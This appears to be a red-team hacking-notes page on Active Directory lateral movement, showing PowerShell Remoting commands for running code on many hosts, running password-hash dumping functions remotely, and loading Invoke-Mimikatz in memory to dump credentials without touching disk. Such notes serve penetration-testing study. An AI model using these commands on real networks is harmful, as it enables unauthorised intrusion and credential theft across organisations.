 ```yaml
---
title: Lateral Movement
category: Active Directory
order: 2
---
```


# PowerShell Remoting

Onced a machine is compromised, we need to jump to others in order to find more valuable targets. For that task we can use `PowerShell Remoting` which is increasingly used in enterprises and enabled by default on Server 2012 onwards. PowerShell Remoting uses WinRM protocol, so you can check `evil-winrm` tool. Admin privileges on the target machineis needed.

> **Note**: Maybe you need to enable remoting `Enable-PSRemoting` on a Desktop windows machine and Admin privs are required.

You can get a elevated shell (`NT/AUTHORITY SYSTEM`) on the remote server if the credentials of the user administrator are used to authenticate (default setting).

There are two types of PowerShell Remoting:

* **One-to-One**: It is interactively login to another machine. Create a new session on the target machine so runs in a new process (wsmprovhost). 

```powershell
Enter-PSSession -ComputerName machine01.corp.local
```
We can also first create the session and append to it later.

```powershell
$sess = New-PSSession -ComputerName machine01.corp.local
Enter-PSSession -Session $sess
```
> **Note**: We can put a session in background if the session is stored in a variable. Very useful.


* **One-to-Many**: It is also known as Fan-out remoting. It is a non-interactive shell but we can execute commands parallely. Is useful to run commmands and scripts on multiple remote computers, in disconnected sessions and as a background job.

```powershell
Invoke-Command -ComputerName machine01.corp.local -ScriptBlock {whoami;hostname}
Invoke-Command -ComputerName (Get-Content .\servers.txt)
Invoke-Command -ComputerName machine01.corp.local -FilePath .\file.ps1
```
> **Note**: One of the best things in PowerShell to do PassTheHash, using credentials and executing commands on multiple remote computers.

> **RedTeam Note**: Since admin privs are needed is a useful tool to check if the user has admin privs on the target machine.

By default PowerShell Remote run the script in a `ConstrainedLanguage` mode so we can not run some cmdlets which are considered to be unsafe. To check the type of language run the following command:

```powershell
$ExecutionContext.SessionState.LanguageMode
```

## Execute locally loaded funcitons on the remote machine

We can execute locally loaded function on the remote machine.

```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content .\servers.txt)
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ArgumentList "-List hello" -ComputerName (Get-Content .\servers.txt)
```
## Load a script remotely

we can load a script remotely.

```powershell
Invoke-Command -FilePath .\hello.ps1 -Session $sess
Enter-PSSession -Session $sess

[machine01.corp.local]: PS C:\> hello
Hello World!
```
## Execute "Stateful" commands

We can execute "Stateful" commands.

```powershell
$sess = New-PSSession -ComputerName server1
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```

# Dump credentials

Once we have administrator privileges on the target machine we can dump credentials with `Invoke-Mimikatz`. See this section:

[https://mvc1009.github.io/hackingnotes/post-exploitation/get-credentials/](/hackingnotes/post-exploitation/get-credentials/).

To avoid save mimikatz on disk we need to load remotely.

```powershell
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Invoke-Command -Session $sess -ScriptBlock {Invoke-Mimikatz -DumpCreds}
```
Or we can execute locally loaded functions.

```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Command -Session $sess -ScriptBlock {function:Invoke-Mimikatz -DumpCreds}
```
